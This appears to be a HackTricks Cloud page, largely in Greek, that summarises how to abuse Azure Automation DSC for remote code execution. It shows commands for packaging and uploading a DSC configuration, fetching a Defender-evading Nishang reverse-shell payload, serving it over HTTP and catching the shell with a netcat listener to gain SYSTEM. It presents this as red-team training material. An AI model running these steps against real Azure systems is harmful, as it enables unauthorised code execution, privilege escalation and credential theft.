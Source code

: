 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Η διαδικασία περιλαμβάνει την εγκατάσταση μιας υποδομής απομακρυσμένου διακομιστή για τη φιλοξενία ενός τροποποιημένου payload `Invoke-PowerShellTcp.ps1` του Nishang, ονόματι `RevPS.ps1`, σχεδιασμένο να παρακάμπτει το Windows Defender. Το payload εξυπηρετείται από μια μηχανή Kali Linux με IP `40.84.7.74` χρησιμοποιώντας έναν απλό HTTP server Python. Η λειτουργία εκτελείται μέσω αρκετών βημάτων:

#### Step 1 — Create Files

* **Files Required:** Απαιτούνται δύο σενάρια PowerShell:
1. `reverse_shell_config.ps1`: Ένα αρχείο Desired State Configuration (DSC) που ανακτά και εκτελεί το payload. Είναι διαθέσιμο από το [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Ένα σενάριο για τη δημοσίευση της διαμόρφωσης στη VM, διαθέσιμο στο [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
* **Customization:** Οι μεταβλητές και οι παράμετροι σε αυτά τα αρχεία πρέπει να προσαρμοστούν στο συγκεκριμένο περιβάλλον του χρήστη, συμπεριλαμβανομένων των ονομάτων πόρων, των διαδρομών αρχείων και των αναγνωριστικών διακομιστή/payload.

#### Step 2 — Zip Configuration File

* Το `reverse_shell_config.ps1` συμπιέζεται σε ένα αρχείο `.zip`, καθιστώντας το έτοιμο για μεταφορά στον Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Set Storage Context & Upload

* Το συμπιεσμένο αρχείο ρύθμισης μεταφορτώνεται σε ένα προκαθορισμένο δοχείο Azure Storage, azure-pentest, χρησιμοποιώντας την εντολή Set-AzStorageBlobContent του Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Βήμα 4 — Προετοιμασία του Kali Box

* Ο διακομιστής Kali κατεβάζει το φορτίο RevPS.ps1 από ένα αποθετήριο GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Το σενάριο επεξεργάζεται για να καθορίσει το στοχευμένο Windows VM και την πόρτα για το reverse shell.

#### Βήμα 5 — Δημοσίευση Αρχείου Διαμόρφωσης

* Το αρχείο διαμόρφωσης εκτελείται, με αποτέλεσμα το σενάριο reverse-shell να αναπτυχθεί στην καθορισμένη τοποθεσία στο Windows VM.

#### Βήμα 6 — Φιλοξενία Payload και Ρύθμιση Listener

* Ένας Python SimpleHTTPServer ξεκινά για να φιλοξενήσει το payload, μαζί με έναν listener Netcat για να καταγράψει τις εισερχόμενες συνδέσεις.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Η προγραμματισμένη εργασία εκτελεί το payload, επιτυγχάνοντας δικαιώματα επιπέδου SYSTEM.

#### Συμπέρασμα

Η επιτυχής εκτέλεση αυτής της διαδικασίας ανοίγει πολλές δυνατότητες για περαιτέρω ενέργειες, όπως η εξαγωγή διαπιστευτηρίων ή η επέκταση της επίθεσης σε πολλές VMs. Ο οδηγός ενθαρρύνει τη συνεχιζόμενη μάθηση και τη δημιουργικότητα στον τομέα του Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
